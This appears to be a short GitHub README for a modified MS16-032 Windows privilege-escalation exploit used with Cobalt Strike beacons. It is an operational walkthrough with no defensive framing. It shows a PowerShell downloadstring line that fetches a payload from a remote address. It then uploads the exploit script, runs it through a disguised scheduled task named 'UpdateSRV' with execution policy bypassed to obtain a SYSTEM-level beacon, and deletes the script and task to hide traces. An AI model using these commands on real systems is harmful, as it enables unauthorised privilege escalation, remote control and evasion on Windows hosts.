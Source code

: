 # Updated Exploit ms16-032 to get a Beacon back

## Requirement
You need a unpriviledged Shell/Beacon on Target and have to change the exploit to fit your currnet ListenerName 
```
downloadstring('http://172.16.0.5:80/a'))
```
## Get a Beacon with System Priviledges
```
beacon> cd C:\Windows\Temp
beacon> upload /root/tools/files/ms16-032_beacon.ps1
Now create a schtasks to run your exploit:
beacon> shell schtasks /Create /TN UpdateSRV /SC once /ST 10:10 /TR "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -exec bypass C:\Windows\Temp\ms16-032_beacon.ps1"
System beacon calls back :)
Delete Beacon:
beacon> shell del C:\Windows\Temp\ms16-032_beacon.ps1
Delete Task:
beacon> shell schtasks /Delete /TN UpdateSRV /F
[*] Tasked beacon to run: schtasks /Delete /TN UpdateSRV /F
SUCCESS: The scheduled task "UpdateSRV" was successfully deleted.
```
